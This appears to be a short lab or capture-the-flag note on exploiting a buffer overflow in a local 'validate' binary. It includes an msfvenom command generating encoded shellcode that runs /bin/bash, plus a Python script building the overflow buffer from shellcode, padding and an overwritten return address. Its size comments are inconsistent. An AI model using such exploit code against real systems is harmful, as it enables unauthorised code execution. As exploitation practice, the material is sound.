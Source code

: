 ![all-clear](assets/markdown-img-paste-20210910073206300.png)

**note**

To me it looks like the bad chars should be "\x00\x09\x0a\x20", which dosen't work. Consulting the internet it should be "\x00\x0a\0d\x20\x46". They show up fine when I run gdb, but removing them works.

`msfvenom -a x86 -p linux/x86/exec CMD=/bin/bash -b '\x00\x0d\x0a\x20\x46' -e x86/shikata_ga_nai -f c`

```
#!/usr/bin/python3
import os

## offset = 116
## overflow = "A" * offset
eip_val = "\xaf\x84\x04\x08"

## payload is 95 bytes
payload = ("\xba\xa5\xd9\x28\xb5\xda\xd8\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x0b\x83\xc6\x04\x31\x56\x11\x03\x56\x11\xe2\x50\xb3\x23\xed"
"\x03\x16\x52\x65\x1e\xf4\x13\x92\x08\xd5\x50\x35\xc8\x41\xb8"
"\xa7\xa1\xff\x4f\xc4\x63\xe8\x58\x0b\x83\xe8\x77\x69\xea\x86"
"\xa8\x1e\x84\x56\xe0\xb3\xdd\xb6\xc3\xb4")

sendbuffer = payload + "\x90" * (116-70) + eip_val
## os.popen("./validate " + str(sendbuffer.encode()))
print(sendbuffer)
```
